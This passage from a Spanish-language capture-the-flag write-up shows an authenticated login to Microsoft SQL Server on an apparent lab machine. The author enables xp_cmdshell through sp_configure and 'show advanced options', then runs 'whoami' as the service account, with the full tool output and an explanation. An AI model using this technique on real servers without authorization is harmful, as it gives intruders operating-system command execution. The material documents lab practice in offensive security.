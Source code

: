 Ahora, intentamos conectarnos a *Microsoft SQL Server* con las nuevas credenciales y validamos si podemos ejecutar comandos a nivel de sistema:

```bash
❯ mssqlclient.py WORKGROUP/mssql-svc@10.10.10.125 -windows-auth
/usr/local/lib/python2.7/dist-packages/OpenSSL/crypto.py:14: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
  from cryptography import utils, x509
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: None, New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(QUERIER): Line 1: Changed database context to 'master'.
[*] INFO(QUERIER): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL> xp_cmdshell "whoami"
[-] ERROR(QUERIER): Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell' because this component is turned off as part of the security configuration for this server. A system administrator can enable the use of 'xp_cmdshell' by using sp_configure. For more information about enabling 'xp_cmdshell', search for 'xp_cmdshell' in SQL Server Books Online.
SQL> sp_configure "xp_cmdshell", 1
[-] ERROR(QUERIER): Line 62: The configuration option 'xp_cmdshell' does not exist, or it may be an advanced option.
SQL> sp_configure "show advanced", 1
[*] INFO(QUERIER): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> reconfigure
SQL> sp_configure "xp_cmdshell", 1
[*] INFO(QUERIER): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> reconfigure
SQL> xp_cmdshell "whoami"
output                                                                             

--------------------------------------------------------------------------------   

querier\mssql-svc                                                                  

NULL                                                                               

SQL>
```

Explicamos un poco los comandos ejecutados. Primero tratamos de ejecutar un comando a nivel de sistema con `xp_cmdshell`; sin embargo nos manda un error, por lo tanto tratamos de cambiar el valor de `xp_cmdshell` de 0 a 1 con `sp_configure "xp_cmdshell, 1"`, pero otra vez nos sale otro error. A este punto cambiamos el valor de `show advanced` de 0 a 1, lo cual nos lo permite y aplicamos una reconfiguración para que se apliquen los cambios con `reconfigure`. Ahora nos queda cambiar el valor de `xp_cmdshell` de 0 a 1, aplicamos un `reconfigure` y ya podemos ejecutar comando a nivel de sistema.

